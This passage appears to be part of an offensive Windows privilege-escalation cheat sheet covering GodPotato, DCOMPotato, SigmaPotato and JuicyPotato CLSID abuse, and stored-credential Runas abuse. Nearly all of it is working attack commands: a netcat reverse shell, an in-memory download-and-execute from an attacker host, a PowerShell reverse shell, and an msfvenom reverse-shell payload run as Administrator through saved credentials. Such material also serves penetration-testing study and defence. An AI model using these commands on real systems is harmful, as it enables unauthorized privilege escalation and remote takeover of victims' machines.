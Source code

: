 ```bash
# Works across Windows 8/8.1–11 and Server 2012–2022 when SeImpersonatePrivilege is present.
GodPotato -cmd "cmd /c whoami"
# You can achieve a reverse shell like this.
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"

```

### **DCOMPotato**

```bash
# PrinterNotify variant
PrinterNotifyPotato.exe "cmd /c whoami"

# McpManagementService variant (Server 2022 also)
McpManagementPotato.exe "cmd /c whoami"

```

### **SigmaPotato**

```bash
# Load and execute from memory (no disk touch)
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData("http://ATTACKER_IP/SigmaPotato.exe"))
[SigmaPotato]::Main("cmd /c whoami")

# Or ask it to spawn a PS reverse shell
[SigmaPotato]::Main(@("--revshell","ATTACKER_IP","4444"))

```

### **CLSID Problems**

```bash
# Oftentimes default CLSID that JuicyPotato uses doesn't work 
https://ohpe.it/juicy-potato/CLSID/
```

### **Checking CLSIDs**

```bash
# Download Join-Object.ps1 and load it
https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1

# download and execute 
https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1

# trying every CLSID  when the port number changes, it will mean that the CLSID worked.
# Check the working CLSIDs using the parameter -c
https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat
```

## Stored Credentials (Runas)
### Enumeration
```powershell
$ cmdkey /list
```
### Exploitaion
```bash
- on attacker:
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.15 LPORT=9001 -f exe > mallicous.exe

- on victim:
$ runas /savecred /user:WORKGROUP\Administrator "C:\Windows\Tasks\mallicous.exe"
```